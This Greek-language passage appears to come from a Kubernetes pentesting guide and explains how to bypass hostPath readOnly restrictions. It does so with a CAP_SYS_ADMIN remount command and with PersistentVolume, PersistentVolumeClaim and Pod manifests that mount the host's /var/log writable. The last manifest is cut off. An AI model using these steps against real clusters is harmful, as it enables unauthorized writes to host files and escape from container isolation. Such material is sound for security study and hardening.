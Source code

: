 #### Παράκαμψη προστασίας readOnly <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Αν είστε αρκετά τυχεροί και η υψηλά προνομιούχη ικανότητα `CAP_SYS_ADMIN` είναι διαθέσιμη, μπορείτε απλά να ξανατοποθετήσετε τον φάκελο ως rw:
```bash
mount -o rw,remount /hostlogs/
```
#### Παράκαμψη προστασίας hostPath readOnly <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Όπως αναφέρεται στην [**συγκεκριμένη έρευνα**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) είναι δυνατόν να παρακαμφθεί η προστασία:
```yaml
allowedHostPaths:
- pathPrefix: "/foo"
readOnly: true
```
Το παραπάνω είχε σκοπό να αποτρέψει διαρροές όπως οι προηγούμενες, αντί να χρησιμοποιεί ένα hostPath mount, χρησιμοποιεί ένα PersistentVolume και ένα PersistentVolumeClaim για την προσάρτηση ενός φακέλου των hosts στον container με εγγράψιμη πρόσβαση:
```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
name: task-pv-volume-vol
labels:
type: local
spec:
storageClassName: manual
capacity:
storage: 10Gi
accessModes:
- ReadWriteOnce
hostPath:
path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
name: task-pv-claim-vol
spec:
storageClassName: manual
accessModes:
- ReadWriteOnce
resources:
requests:
storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
name: task-pv-pod
spec:
volumes:
- name: task-pv-storage-vol
persistentVolumeClaim:
claimName: task-pv-claim-vol
containers:
- name: task-pv-container
image: ubuntu:latest
command: [ "sh", "-c", "sleep 1h" ]
volumeMounts:
```